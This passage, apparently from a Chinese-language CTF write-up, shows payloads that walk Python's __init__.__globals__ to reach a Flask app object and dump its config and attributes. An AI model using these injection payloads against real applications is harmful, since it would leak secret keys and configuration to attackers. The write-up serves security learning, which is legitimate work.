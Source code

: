**让我们通过使用 **__globals__** 来枚举 __ **init__** 函数，因为我们读到“ **__globals__** 持有**函数的全局变量**”—docs.python.org**

```
**__init__.__globals__**
```

**![](img/04cdba82018a744e9e96f531dce5db24.png)**

**__globals_ 的内容**

**酷，正如我们所说， **app** 包含配置信息。现在，我们需要枚举 **app** 参数。既然是 **dict** ，我们就可以做*payload[‘app’]，*来试试吧！**

```
**Payload :
__init__.__globals__[app]Output :
<Flask 'app'>**
```

***嗯..*大家看看我们现在的工作流程，app 是变量，我们一般用 app.config，config 是方法，我们用 __dict__ 枚举方法，需要从 app 中获取数据。**

**两个都列举一下吧！**

```
**Payloads :
__init__.__globals__[app].config.__dict__
__init__.__globals__[app].__dict__**
```

**![](img/0e470134b52975e9e495311f6e6ac464.png)**
